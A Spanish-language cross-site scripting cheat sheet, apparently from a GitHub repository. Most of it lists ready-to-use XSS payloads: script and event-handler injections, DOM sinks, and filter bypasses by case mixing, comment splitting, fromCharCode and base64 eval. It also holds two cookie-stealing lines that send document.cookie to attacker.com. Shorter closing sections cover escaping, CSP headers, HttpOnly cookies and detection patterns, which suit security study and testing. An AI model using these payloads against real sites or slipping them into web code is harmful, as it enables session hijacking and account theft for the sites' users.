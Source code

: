 # Cross-Site Scripting (XSS) Cheat Sheet

## Tipos de XSS

### 1. Reflected XSS
```javascript
// Básico
<script>alert('XSS')</script>

// Usando eventos
<img src="x" onerror="alert('XSS')">
<body onload="alert('XSS')">

// Con codificación
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```

### 2. Stored XSS
```javascript
// Payload persistente
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>

// Robo de cookies
<script>
new Image().src="http://attacker.com/steal?cookie="+encodeURIComponent(document.cookie);
</script>
```

### 3. DOM-based XSS
```javascript
// Manipulación del DOM
<script>document.write(document.location.hash.substring(1));</script>

// Usando innerHTML
<div id="div"></div>
<script>div.innerHTML=document.location.hash.slice(1)</script>
```

## Técnicas de Bypass

### 1. Bypass de Filtros
```javascript
// Mezclando mayúsculas/minúsculas
<ScRiPt>alert('XSS')</sCrIpT>

// Sin espacios
<img/src="x"onerror=alert('XSS')>

// Usando comentarios HTML
<scr<!---->ipt>alert('XSS')</scr<!---->ipt>
```

### 2. Codificación
```javascript
// URL Encoding
%3Cscript%3Ealert('XSS')%3C/script%3E

// Base64
<script>eval(atob('YWxlcnQoJ1hTUycpOw=='))</script>

// Unicode
\u003Cscript\u003Ealert('XSS')\u003C/script\u003E
```

## Vectores de Ataque Comunes

### 1. Input Fields
```javascript
// En formularios
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
```

### 2. URLs
```javascript
// Parámetros URL
?search=<script>alert('XSS')</script>
?redirect=javascript:alert('XSS')
```

## Prevención

### 1. Validación de Input
```javascript
// Sanitización básica
input = input.replace(/[<>]/g, '');

// Escape de caracteres especiales
input = input.replace(/[&<>"']/g, function(m) {
    return {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#x27;'
    }[m];
});
```

### 2. Headers de Seguridad
```http
Content-Security-Policy: default-src 'self'
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
```

### 3. Buenas Prácticas
- Usar HTML encoding para output
- Implementar CSP (Content Security Policy)
- Validar input en servidor y cliente
- Usar frameworks modernos con protección XSS integrada
- Implementar HttpOnly en cookies
- Mantener bibliotecas actualizadas

## Testing y Detección

### 1. Patrones de Búsqueda
```javascript
// Buscar vulnerabilidades
"><script>
onerror=
onload=
javascript:
data:text/html
```

### 2. Herramientas
- XSS Hunter
- BeEF (Browser Exploitation Framework)
- OWASP ZAP
- Burp Suite (Scanner XSS)

